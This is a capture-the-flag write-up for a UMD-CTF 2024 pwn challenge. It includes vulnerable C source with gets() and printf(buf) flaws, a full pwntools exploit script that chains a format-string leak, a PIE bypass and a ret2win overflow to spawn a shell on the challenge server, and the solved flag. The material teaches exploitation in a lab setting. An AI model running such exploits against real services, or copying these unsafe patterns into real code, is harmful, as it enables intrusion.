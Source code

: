 ```yaml
---
layout: writeup
category: UMD-CTF-2024
chall_description:
points: 432
solves: 71
tags: pwn pwn/buffer-overflow pwn/gets pwn/format-string pwn/ret2win pwn/PIE
date: 2024-4-28
comments: false
---
```


Thufir Hawat is ready to answer any and all questions you have. Unless it's not about division...  

`nc challs.umdctf.io 32300`  

[mentat-question.c](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UMD-CTF-2024/mentat-question.c)  
[mentat-question](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UMD-CTF-2024/mentat-question)  
[Dockerfile](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UMD-CTF-2024/Dockerfile)  

---

We're provided a C source file and an ELF binary. Here's the source:  

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <stdint.h>

void secret() {
    system("/bin/sh");
}

uint32_t calculate(uint32_t num1, uint32_t num2) {
    printf("%i\n", num1);
    printf("%i\n", num2);

    char buf[16];

    if (num2 < 1) {
        puts("Oh, I was not aware we were using negative numbers!");
        puts("Would you like to try again?");
        gets(buf);
        if (strncmp(buf, "Yes", 3) == 0) {
            fputs("Was that a ", stdout);
            printf(buf);
            fputs(" I heard?\n", stdout);
            return 0;
        } else {
            puts("I understand. Apologies, young master.");
            exit(0);
        }
    }

    return num1 / num2;
}

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    uint32_t num1;
    uint32_t num2;
    uint32_t res = 0;

    char buf[11];
    puts("Hello young master. What would you like today?");
    fgets(buf, sizeof(buf), stdin);

    if (strncmp(buf, "Division", 8) == 0) {
        puts("Of course");
        while (res == 0) {
            puts("Which numbers would you like divided?");
            fgets(buf, sizeof(buf), stdin);
            num1 = atoi(buf);

            fgets(buf, sizeof(buf), stdin);
            getc(stdin);
            if (strncmp(buf, "0", 1) == 0) {
                puts("I'm afraid I cannot divide by zero, young master.");
                return 1;
            } else {
                num2 = atoi(buf);
            }

            res = calculate(num1, num2);
        }
    }

    return 0;
}

```

The ELF binary is x86_64, and running checksec on it tells us it has the NX and PIE protections enabled. For those who are unaware, NX disallows execution of bytes on the stack (or in certain memory areas). PIE, meanwhile, randomizes the base address of the ELF. Essentially, instead of the base address being a constant 0x40000000 or whatever, which would allow us to always know the address of every function, it randomizes this base address, preventing the user from gaining knowledge of what the address of every function is. This makes it harder for the user to return to a specific memory address in an attack.  

Let's check out the C code now and see what vulnerabilities we can find.  

There don't appear to be any major vulnerabilities in the main function, so let's see what we can find in calculate(). First things first, we need to set num2 to be less than 1. For some reason, inputting num2 as 0 or -1 wasn't actually working for me locally, but through stress testing, I realized that simply sending 3 new lines actually allowed access into the if statement code block.  

Here, there are now two obvious vulnerabilities. Firstly, `gets(buf)` is called. gets() is a function that is well-known to allow unbounded input, so basically free buffer overflow. Secondly, `printf(buf)` is called. With printf(), whenever a program prints out a user-controlled variable, a format specifier must be used. Otherwise, it allows a malicious user to write their own format specifiers into the output variable, which can allow information to be gained about memory on the stack.  

However, there is one slight problem with entering any sort of input into buf. The line `strncmp(buf, "Yes", 3) == 0` attempts to ensure that the user input is set to "Yes". If this check fails, the program exits. Fortunately, however, the way this check is implemented makes it so that it only checks if the first 3 bytes of buf are equal to "Yes". Therefore, we can simply enter whatever payload we want after "Yes" and pass the check!  

Now we can develop a process to return to the win function, secret().  

Firstly, we need to determine the PIE offset. We need the PIE offset to calculate the address of the secret() function. We can do this by leaking the address of main() or some other function, since the offset between main() and secret() is known and constant, regardless of PIE.  

Once we determine the PIE offset, we can calculate the address of the secret() function, and then override RIP (the return address) on the stack to return to secret().  

Let's first deal with finding the offset. Well, we know calculate() is called from main(), so main's address has to be on the stack, wherever RIP is located, since the program will need to return to it later.  

So, we can first find the offset of the RIP with pwntools's cyclic() and cyclic_find() functions. Here's the script for that:  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./mentat-question")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

p = process('./mentat-question')
gdb.attach(p)

# NOTE: logic starts here

p.recvuntil(b'?\n')
p.sendline(b'Division')

def send_payload(b):
    p.recvuntil(b'?\n')
    p.send(b'\n\n\n')
    p.sendlineafter(b'?\n', b)
    return p.recvline()

send_payload(b'Yes' + cyclic(1024))
# after checking out in GDB, I found that RSP, when the program ran into SIGSEV, was set to "aaagaaah"  
ret = cyclic_find('aaagaaah')

p.interactive()
```

Note that you should be using the pwndbg extension for GDB. It helps a lot!  

Now that we have the offset of RIP, we can now use the format string vulnerability to essentially read the stack. I initially tried just sending a string of many "%p", but it actually ended up overriding RIP on the stack, which triggered a SIGSEV. So that didn't work.  

Instead, we can perform an arbitrary read, which will allow us to read the memory of a certain offset on the stack. Through a bit of testing, I was able to figure out that the offset we needed was equal to `ret - 2`:  

```py
res = send_payload(b'Yes%' + str(ret-2).encode() + b'$p').decode('ascii')
res = res.split('0x')[-1].split(' ')[0]
main = int(res, 16)
```

The way I confirmed was simply by running `print 'main'` in GDB every time after the Python script finished execution, which told me the address of main() for that current run. I kept on changing the +/- offset on ret until I got the address of main().  

Now that we have the address of main(), we can simply calculate the PIE offset and thus the address of secret() as follows:  

```py
PIE = main - elf.symbols['main']
winaddr = PIE + elf.symbols['secret']
```

Finally, we can override RIP and return to secret to pop a shell!  

```py
send_payload(b'Yes' + b'A'*(ret) + pack.p64(winaddr + 1))
```

Now we can change the target to the remote service, run the script, do "cat flag.txt", and get the flag!  

Here's the full script:  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./mentat-question")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./mentat-question')
# gdb.attach(p)

p = remote('challs.umdctf.io', 32300)

p.recvuntil(b'?\n')
p.sendline(b'Division')

def send_payload(b):
    p.recvuntil(b'?\n')
    p.send(b'\n\n\n')
    p.sendlineafter(b'?\n', b)
    return p.recvline()

# NOTE: find return address
# send_payload(b'Yes' + cyclic(1024))

ret = cyclic_find('aaagaaah')

# NOTE: get main address
res = send_payload(b'Yes%' + str(ret-2).encode() + b'$p').decode('ascii')
res = res.split('0x')[-1].split(' ')[0]
main = int(res, 16)

# NOTE: calculate secret() address
PIE = main - elf.symbols['main']
winaddr = PIE + elf.symbols['secret']

# NOTE: ret2win
send_payload(b'Yes' + b'A'*(ret) + pack.p64(winaddr + 1))

p.interactive()
```

And here's the flag!  

    UMDCTF{3_6u1ld_n4v16470r5_4_7074l_0f_1.46_m1ll10n_62_50l4r15_r0und_7r1p}